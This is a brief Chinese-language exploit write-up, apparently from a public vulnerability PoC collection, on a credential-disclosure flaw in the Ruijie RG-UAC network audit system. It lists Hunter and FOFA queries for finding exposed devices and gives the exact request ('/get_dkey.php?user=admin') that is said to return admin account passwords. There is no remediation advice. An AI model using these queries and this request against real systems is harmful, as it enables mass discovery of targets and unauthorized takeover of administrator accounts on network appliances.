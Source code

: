 # 锐捷RG-UAC统一上网行为管理审计系统账号密码泄漏漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/PWRvl7dZB_p9dP8f/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-803916.png)

# 四、漏洞复现
```plain
/get_dkey.php?user=admin
```

![1711942654983-81767f2d-af9a-4c55-a6bf-54ccc7d257aa.png](./img/PWRvl7dZB_p9dP8f/1711942654983-81767f2d-af9a-4c55-a6bf-54ccc7d257aa-619723.png)

![1711942773077-d328619f-9fe1-49f8-88bb-da5a39b5859e.png](./img/PWRvl7dZB_p9dP8f/1711942773077-d328619f-9fe1-49f8-88bb-da5a39b5859e-257062.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vfv3tndznm6x0igq>
